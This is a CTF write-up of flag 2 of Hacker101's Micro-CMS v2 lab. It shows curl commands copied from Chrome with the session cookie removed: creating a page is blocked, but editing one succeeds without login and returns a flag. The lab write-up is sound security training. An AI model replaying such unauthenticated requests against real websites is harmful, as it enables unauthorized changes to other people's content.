 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 2
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1); this is a writeup of flag 2 in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding a vulnerability

Once I'd completed flag one I spent some time clicking around mapping out the site (that didn't take long) and doing some basic dir busting to see if I could find anything interesting. Long story short there, I didn't find anything of note, so back to looking at the obvious pages.

I dug around in the markdown section seeing if there was any injection points I could attack (there's a good post on some attack vectors [here](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8)), but it looks like this time around there was some decent input sanitisation going on. Another dead end.

So, going back to clicking around the site I had a thought. We can see the get requests are protected with a login page, what about the post requests. There's 2 on the site, one for creating a page and one for editing it.

# Posting to Create

Usually I'd do something like this with burp suit however I'm currently trying out kali on WSL2, so until later this year there's no easy way to get UI up and running. Instead I'm browsing in windows and using the tools in the WSL2 instance. So no burp, instead just the network tab in chrome.

The first thing to do is to log in (see my previous post on how to do this) and navigate to the create page at `/page/create/`. Open the dev tools in chrome (F12) and go to the network tab. I usually tick the "Preserve log" option at the top so redirects don't wipe the results out. Finally fill in some details and submit the page.

Now we have a payload we can right click on the post in the network tab and select "Copy as cURL (bash)"

![login page]({{ site.url }}/assets/post-images/h101-cms-v2/CreatePage.png)

Now I tend to paste this into a text editor (I use vscode for everything) to make editing a bit easier. All we need to do is delete the line starting `-H 'Cookie:` so we're no longer logged in on the request and paste it into the terminal and hit enter:

```bash
curl 'http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=Test&body=Something+in+here' \
  --compressed \
  --insecure
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.%
```

Nope, that's protected. Moving on....

# Editing a page

Just like before: we're logged in, create the request, copy it, remove the cookie line and paste it into the terminal:

```bash
curl 'http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=test&body=something+else+in+here' \
  --compressed \
  --insecure
^FLAG^FLAG_HASH_HERE$FLAG$%
```

And that gives us a flag. Looks like the edit page wasn't correctly protected. One more flag to go on this challenge.

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
